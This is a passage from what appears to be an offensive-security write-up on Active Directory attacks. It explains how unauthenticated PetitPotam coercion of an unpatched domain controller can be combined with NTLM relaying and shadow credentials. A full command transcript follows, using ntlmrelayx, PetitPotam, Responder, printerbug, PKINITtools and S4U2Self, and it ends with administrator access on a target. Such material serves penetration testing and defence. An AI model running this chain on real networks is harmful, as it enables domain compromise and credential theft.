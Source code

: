 Why not crank up the difficulty? Up until this point, the authentication coercion + relay scenarios I've covered have been using a previously known/compromised account to kick off the coercion mechanism. These attacks are still potentially viable if you *do not* own a credential due to the fact that domain controllers without an August 2021 patch are vulnerable to unauthenticated PetitPotam. You may know this already, as the big attack vector floating around after PetitPotam's release was unauthenticated DC compromise through relaying to an ADCS web enrollment endpoint. However, the shadow credentials/RBCD attack vector can leverage this too by wrapping in an extra round of relaying.


‍

The overall attack flow looks like this:

‍

![](../../_resources/620d07cd078fc24ed48acc63_Microso_424f88d0110e421a8.png)

‍

##### Example Attack Transcript

```
# https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py
# Setup to relay auth from the DC to your target
python3 ntlmrelayx.py -t smb://target.domain.local -smb2support -socks

# https://github.com/topotam/PetitPotam/blob/main/PetitPotam.py
# Target unpatched DC with unauthenticated PetitPotam
python3 PetitPotam.py -u '' -p '' -d '' <attacker ip> dc.domain.local

# Stop the current ntlmrelayx servers to free the ports, but leave the SOCKS proxy running
ntlmrelayx> stopservers

# https://github.com/ShutdownRepo/impacket/tree/pywhisker
# Start a second instance of ntlmrelayx, this time for shadow credential attack
python3 ntlmrelayx.py -t ldap://dc.domain.local --shadow-credentials --shadow-target target\$

# https://github.com/lgandx/Responder
# SMB and HTTP off
# Will poison the name in your UNC path below, if target attempts to resolve over LLMNR/NBT-NS
./Responder.py -I eth0 -w

# https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py
# Trigger auth from your target, authenticating through the SOCKS proxy as the vulnerable DC
proxychains python3 printerbug.py DOMAIN/DC\$:fakepass@target.domain.local badhost@80/path

# OR
# https://github.com/topotam/PetitPotam/blob/main/PetitPotam.py
proxychains python3 PetitPotam.py -u DC\$ -p fakepass -d DOMAIN badhost@80/path target.domain.local

# Obtain TGT using https://github.com/dirkjanm/PKINITtools
# pfx file and pfx password will be generated by ntlmrelayx
python3 gettgtpkinit.py domain.local/target\$ target.ccache -cert-pfx <pfx file path> -pfx-pass <pfx password>

# Obtain a TGS using S4U2Self to obtain admin rights on the target
python3 gets4uticket.py kerberos+ccache://domain.local\\target\$:target.ccache@dc.domain.local cifs/target.domain.local@domain.local administrator@domain.local administrator.ccache -v 
```
